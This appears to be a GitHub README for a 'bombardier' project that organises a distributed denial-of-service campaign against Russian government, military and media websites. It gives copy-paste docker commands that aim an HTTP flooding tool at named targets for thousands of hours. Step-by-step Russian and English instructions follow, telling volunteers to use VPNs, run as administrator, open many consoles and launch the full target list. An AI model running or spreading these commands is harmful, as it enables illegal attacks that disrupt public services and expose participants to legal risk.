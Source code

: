# bombardier
Fight agains propoganda

# If you have kubertnetes cluster `./run_all_kuber.sh`
easiest way 

`docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l http://kremlin.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://mil.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l http://www.scrf.gov.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://ach.gov.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://epp.genproc.gov.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://www.gosuslugi.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://www.1tv.ru`
<br>
`docker run -d --rm alpine/bombardier -c 1000 -d 600000h -l https://mid.ru`
<br>

# Инструкция для пользователей Windows и Mac: 
1. Установить Docker: https://www.docker.com/products/docker-desktop 
2. Запустить докер и убедиться, что Docker Started 
3. Зайти сюда https://github.com/almerico/bombardier/blob/main/README.md 
4. Для лучшего результата используйте ВПН and (
<br>Psiphon
<br>Secure VPN
<br>Proton VPN 
<br>SurfShark
or
<br>Clear VPN 
<br>Proton VPN
<br>Nord VPN)

5. Найти в программах Windows Command Prompt и запустить от имени Администратора 
6. Запустить столько отдельных CMD консолей, сколько вы собираетесь запускать скриптов (каждая строчка - скрипт) 
7. Запустить все цели из resources.txt для виндовс из Консли run_windows.bat для Linux/Mac ./run_all_docker.sh для целей из resources.txt (или ./run_all_docker.sh файл-с-целями)
8. Для выполнения с конкретными целями - Скопировать скрипт (например docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l http://kremlin.ru) и нажать энтер 
9. Убедиться, что процесс пошёл 
10. Ждать падения рашки


# Instruction for Windows and Mac: 
1. Install Docker: https://www.docker.com/products/docker-desktop (For mac please pay attention if you download version for the correct chip) 
2. Launch Docker and make sure that Docker is running 
3. Go here https://github.com/almerico/bombardier/blob/main/README.md 
4. For best result use VPN(
<br>Psiphon
<br>Secure VPN
<br>Proton VPN 
<br>SurfShark
or
<br>Clear VPN 
<br>Proton VPN
<br>Nord VPN)
5. Find in application Windows Command Prompt or Terminal for Mac and launch as an admin. 
6. run all aims from resources.txt for winodws - `run_windows.bat` for Linux/Mac `./run_all_docker.sh ` for resources.txt  or ( .`/run_all_docker.sh your_aim_file`)
7. If you want select aims mainally . `docker run -d --rm alpine/bombardier -c 1000 -d 60000h -l https://mid.ru` Open as many separate CMD consoles as many scripts you are going to launch (each line – one script) 
8. Make sure that the process started  
9. Wait till russia fall
"# bombardier" 
